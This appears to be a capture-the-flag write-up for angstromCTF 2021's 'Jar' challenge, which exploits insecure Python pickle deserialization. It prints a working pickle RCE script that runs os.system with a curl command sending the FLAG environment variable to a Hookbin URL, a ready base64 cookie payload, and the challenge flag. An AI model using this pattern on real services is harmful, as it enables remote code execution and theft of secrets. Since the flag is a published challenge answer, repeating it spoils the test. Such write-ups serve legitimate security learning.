


# Jar

## Description

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co) to get you warmed up.

[jar.py](jar.py), (pickle.jpg)[pickle.jpg], [Dockerfile](Dockerfile)

Hint: The Python [documentation](https://docs.python.org/3/library/pickle.html) for pickle has this big red box... I hope it's not important.

## Solution

In the documentation we find this:



By analyzing the code we can see that the flag is in the EV `FLAG`, so we need to inject some code that reads this EV and send it to us somehow 

So let's use [Hookbin](https://hookbin.com) to send the flag back to us and use this [code](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd) to assemble the cookie we need to pass to the website

```python
import cPickle
import sys
import base64

DEFAULT_COMMAND = "curl -X GET https://hookb.in/####################?$(echo $FLAG)"

COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print(base64.b64encode(cPickle.dumps(PickleRce())))
```

```
contents=Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIEdFVCBodHRwczovL2hvb2tiLmluL0xnUGd4MHdnbHF1V2trcmF5TzNuPyQoZWNobyAkRkxBRyknCnAyCnRScDMKLg==
```
Going to Hookbin we find this request



#### **FLAG >>** `actf{you_got_yourself_out_of_a_pickle}`
